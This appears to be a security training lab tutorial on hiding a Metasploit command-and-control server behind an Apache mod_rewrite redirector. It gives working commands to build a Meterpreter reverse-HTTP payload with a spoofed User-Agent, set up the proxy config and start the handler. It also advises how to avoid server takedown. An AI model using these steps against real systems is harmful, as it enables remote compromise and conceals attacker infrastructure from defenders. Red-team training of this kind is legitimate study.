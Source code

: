 ## There's Always Room for Improvement

As you may have guessed, Metasploit itself is not that great of a C2 server for advanced adversary operations. It's not as flexible as one would desire; you cannot configure agents to beacon out every X seconds with Y jitter. A Next-Generation Firewall could quickly pick up on this C2 traffic, seeing it's a constant stream of traffic. In addition, anyone could connect to an HTTP/HTTPS listener and find out relatively quickly what is going on.

## Command and Control Redirectors

### What is a Redirector?

Before we dive into configuring a Redirector, first, what is it? A Redirector is exactly as it sounds. It's a server that "Redirects" HTTP/HTTPS requests based on information within the HTTP Request body. In production systems, you may see a "Redirector" in the form of a Load Balancer. This server often runs Apache 2 or NGINX. For this lab, we will be leveraging Apache and some of its modules to build a Redirector.

Jumping back into Metasploit, we can set up some basic configurations on Metasploit to allow for more advanced configurations. In this task, we will be setting up a Redirector. Usually, this configuration is set up on multiple hosts; the purpose of this is to hide the true Command and Control server. The diagram below illustrates how communications between a victim and a C2 server happen.

### Illustration of a C2 and Redirector with victims calling back

Usually, when you have a C2 callback, you may set the callback host to a Domain, let's say `admin.tryhackme.com`. It's very common for your C2 Server to get reported when a user files a complaint. Usually, the server gets taken down fairly quickly, sometimes in as little as 3 hours and as much as 24. Setting up a redirector ensures that any information you may have collected during the engagement is safe and sound.

But how does this stop the C2 Server from being taken down? Surely if someone fingerprinted Cobalt Strike on your C2 Server, someone would file a complaint, and it would get taken down. This is true, so you should set up a Firewall to only allow communication to and from your redirector(s) to mitigate any potential risks.

### Illustration of how a C2 Server and a Redirector should interact

## How is a Redirector Setup?

Before we dive into configuring a redirector, we must first understand how one is set up; we will be aligning this to the tools we have available, which are Metasploit and Apache2. In Apache, we will be leveraging a module called `mod_rewrite` (or the Rewrite module). This module allows us to write rules to forward requests to internal or external hosts on a server based on specific HTTP headers or content. We will need to use several modules to configure our Redirector. The following modules must be enabled:

- `rewrite`
- `proxy`
- `proxy_http`
- `headers`

**Note:** If you are using the Attack Box, there is already a service running on port 80 - you must change the default port that Apache listens on in `/etc/apache2/ports.conf`. You must do this before starting the Apache 2 service, or it will fail to start.

### Enabling Modules and Starting Apache2

```sh
root@kali$ apt install apache2
root@kali$ a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
```

## Generating a Payload with Modified Headers

Using Meterpreter, we have the ability to configure various aspects of the HTTP Request, for example, the User-Agent. It is very common for a threat actor to make a slight adjustment to the User-Agent in their C2 HTTP/HTTPS payloads.

```sh
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the HTTP filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

## Modifying the Apache Config File

On Debian-based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`.

### Modified Apache2 Config

```sh
root@kali$ cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'

<VirtualHost *:80>

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	RewriteEngine On
	RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
	ProxyPass "/" "http://localhost:8080/"

	<Directory>
		AllowOverride All
	</Directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

## Setting Up Exploit/Multi/Handler

```sh
root@kali$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.0.44
msf6 exploit(multi/handler) > set OverrideLPORT 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
msf6 exploit(multi/handler) > run
```

After this has all been set up, running your Meterpreter Reverse Shell should now proxy all communications through your Redirector!